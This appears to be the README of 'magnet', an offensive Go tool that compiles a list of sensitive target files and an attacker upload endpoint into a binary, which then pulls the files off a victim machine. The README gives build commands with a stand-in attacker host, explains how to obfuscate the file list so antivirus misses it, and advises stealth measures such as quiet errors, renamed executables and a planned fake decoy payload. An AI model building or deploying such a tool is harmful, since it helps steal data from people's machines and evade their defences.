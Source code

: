 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

### Inject magnet code in your Go program

### Standalone

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

### Shorcut



To build `magnet` binary in one step:
```shell
make build.magnet.linux $FILE $ENDPOINT
# or build.magnet.windows or build.magnet.darwin
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Compile on your own

The compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```



### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
